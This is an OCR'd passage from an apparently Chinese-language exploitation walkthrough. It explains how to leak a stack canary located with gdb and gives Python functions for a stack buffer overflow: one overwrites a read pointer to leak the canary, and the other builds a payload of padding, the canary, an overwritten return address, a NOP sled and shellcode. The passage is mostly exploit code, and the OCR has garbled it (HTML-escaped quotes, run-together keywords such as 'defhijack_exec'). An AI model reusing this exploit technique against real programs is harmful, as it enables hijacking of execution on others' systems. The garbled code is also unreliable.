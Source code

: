   
  
我将 gdb 连接到目标进程，并在主函数处设置了一个断点。检查完 Canary 后，我发现它位于0x7fffffffdd48内存中。然而，这里有一个问题：Canary 的最低位（最低有效字节）总是包含一个空字节。因此，我们必须从该地址加一读取数据，这样空字节就不会阻止我们，并且我们可以从泄漏的数据中获取七个字节，然后自行附加空字节。  
  

```
def leak_canary(p: Popen):
    payload = b&#34;&#34;
    payload += b&#34;A&#34; * 0x100                         # Filling the stack frame
    payload += struct.pack( &#34;<Q&#34;, 0x7fffffffdd49 ) # Buffer->cpReadData
    payload += (b&#34;\x00&#34; * 0x8) # Buffer->nSize ( To avoid touching it )

    p.stdin.write( b&#34;1\n&#34; + payload + b&#34;\n2\n&#34; )
    p.stdin.flush()

    out = b&#34;&#34;
    canary_pos = -1
    n = 0
    
    while n < 1024:
        out = p.stdout.readline()
        canary_pos = out.find( b&#34;Choose: &#34; )
        ifbool( ~canary_pos ) and canary_pos+15 < len(out):
            canary_pos += 8
            break

        n += 1

    else:
        return-1

    canary = struct.unpack( &#34;<Q&#34;, b&#34;\x00&#34; + out[canary_pos : canary_pos+7] )[ 0 ]
    return canary
```

  
  
这个函数实现了我们之前讨论过的功能：泄漏金丝雀数据，尝试将其解析为整数值，然后返回给调用者。一切进展顺利，我们只需要对函数进行一些修改hijack_exec，一切就都正常了。  
  

```
defhijack_exec(p: Popen, canary):
    payload = b&#34;&#34;
    payload += b&#34;A&#34; * 0x7                                 # Fills the stack frame
    payload += struct.pack( &#34;<Q&#34;, canary ) # Places the correct canary value 
    payload += b&#34;B&#34; * 0x8                                 # Base pointer
    payload += struct.pack( &#34;<Q&#34;, 0x7fffffffdd60 + 0x40 ) # Instruction pointer
    payload += b&#34;\x90&#34; * 0x40                             # NOPs for padding
    payload += buf # Shellcode

    p.stdin.write( b&#34;1\n&#34; )
    p.stdin.write( payload + b&#34;\n&#34; )
    p.stdin.flush()
```
